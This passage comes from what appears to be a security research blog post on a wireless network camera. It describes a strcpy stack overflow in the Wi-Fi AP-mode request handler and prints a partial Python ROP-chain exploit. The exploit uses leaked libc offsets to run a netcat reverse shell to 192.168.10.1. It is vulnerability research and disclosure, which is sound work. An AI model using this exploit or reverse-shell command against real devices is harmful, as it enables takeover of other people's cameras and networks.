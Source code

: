 For some reason, they use a safe **strncpy** call when they copy to the *for_p2p_s* struct, but not the *sys_wifi_config* struct on the stack which looks like this:

![sys_wifi_config_struct.png](/assets/images/analysing_a_wireless_network_camera_part_4/sys_wifi_config_struct.png)

We can hit this overflow by sending in a large *pwd* value in the *IOTYPE_USER_IPCAM_SET_AP_MODE_REQ* packet.

## Useful?

This is quite a nice overflow, as we can hijack execution before the **ak_config_set_sys_wifi** call (which also has **strcpy** calls that take in the *pwd* value and copy this into a 50 byte stack buffer which we'd hit if we didn't hit the earlier **strcpy**, very secure), meaning none of the credentials we provide get saved and mess with other stuff.

However, as this is a string-based stack overflow, we can't send in null terminators, so we can only use gadgets within the shared libraries - meaning we'd need a leak. Luckily, the last bug we found gives us that!

## Exploit

I put together an exploit that uses the OOB-Read to leak a *libc* pointer (which we can use to get the base address), then uses a ROP-chain to call **system("nc 192.168.10.1 123 -e ash")** to get a reverse shell on *192.168.10.1*. Here is the ROP-chain in Python:

```
-python
def generate_stack_overflow_ROP_payload(pad_count, ip, port, libc_base):
	system_libc = libc_base + 0x4b4fc
	exit_libc = libc_base + 0x46c30

	# ROP Chain for reverse shell
	payload = b'a' * pad_count

	# Do the stack overflow and execute arbitrary command
	payload += (libc_base + 0x4a5e0).to_bytes(4, byteorder='little') # pc

	# | 0x4a5e0 | ldmia sp!,{r3,pc} |
	payload += (libc_base + 0x313f8).to_bytes(4, byteorder='little') # r3 - copy r2 into r0
	payload += (libc_base + 0x32c24).to_bytes(4, byteorder='little') # pc

	# | 0x32c24 | add r2,sp,#0x3c | blx r3 |

	# | 0x313f8 | cpy r0,r2 | ldmia sp!,{r4,pc} |
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (system_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa" # padding
	payload += (libc_base + 0x184f4).to_bytes(4, byteorder='little') # pc

	# | 0x184f4 | mov r0,#0x1 | ldmia sp!,{r4,pc} |
```